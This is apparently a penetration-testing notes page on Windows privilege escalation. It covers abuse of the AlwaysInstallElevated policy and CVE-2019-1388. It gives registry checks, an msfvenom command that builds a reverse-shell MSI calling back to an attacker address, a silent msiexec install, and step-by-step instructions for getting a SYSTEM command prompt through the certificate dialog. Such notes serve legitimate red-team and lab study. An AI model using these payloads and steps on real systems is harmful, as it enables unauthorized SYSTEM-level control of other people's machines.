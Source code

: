 **Always Install Elevated**

This setting can be set via Local Group Policy by setting Always install with elevated privileges to Enabled under the following paths.
- Computer Configuration\Administrative Templates\Windows Components\Windows Installer
- User Configuration\Administrative Templates\Windows Components\Windows Installer
````
# Enumerating Always Install Elevated Settings

> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
````
Exploitation
````
# Generating MSI Package
$ msfvenom -p windows/shell_reverse_tcp lhost=<Our_IP> lport=<Our_Port> -f msi > aie.msi

# Executing MSI Package
> msiexec /i c:\users\<user>\desktop\aie.msi /quiet /qn /norestart
````

**CVE-2019-1388**

CVE-2019-1388 was a privilege escalation vulnerability in the Windows Certificate Dialog, which did not properly enforce user privileges. The issue was in the UAC mechanism, which presented an option to show information about an executable's certificate, opening the Windows certificate dialog when a user clicks the link. The Issued By field in the General tab is rendered as a hyperlink if the binary is signed with a certificate that has Object Identifier (OID) 1.3.6.1.4.1.311.2.1.10. This OID value is identified in the wintrust.h header as SPC_SP_AGENCY_INFO_OBJID which is the SpcSpAgencyInfo field in the details tab of the certificate dialog. If it is present, a hyperlink included in the field will render in the General tab. This vulnerability can be exploited easily using an old Microsoft-signed executable (hhupd.exe) that contains a certificate with the SpcSpAgencyInfo field populated with a hyperlink.

When we click on the hyperlink, a browser window will launch running as NT AUTHORITY\SYSTEM. Once the browser is opened, it is possible to "break out" of it by leveraging the View page source menu option to launch a cmd.exe or PowerShell.exe console as SYSTEM.
````
# Exploitation

# Step 1 - Right click on the hhupd.exe executable and select Run as administrator from the menu.
# Step 2 - Click on Show information about the publisher's certificate to open the certificate dialog.
# Step 3 - Go back to the General tab and see that the Issued by field is populated with a hyperlink. Click on it and then click OK, and the certificate dialog will close, and a browser window will launch.
# Step 4 -  Right-click anywhere on the web page and choose View page source. Once the page source opens in another tab, right-click again and select Save as, and a Save As dialog box will open.
# Step 5 - Type c:\windows\system32\cmd.exe in the file path and hit enter
````
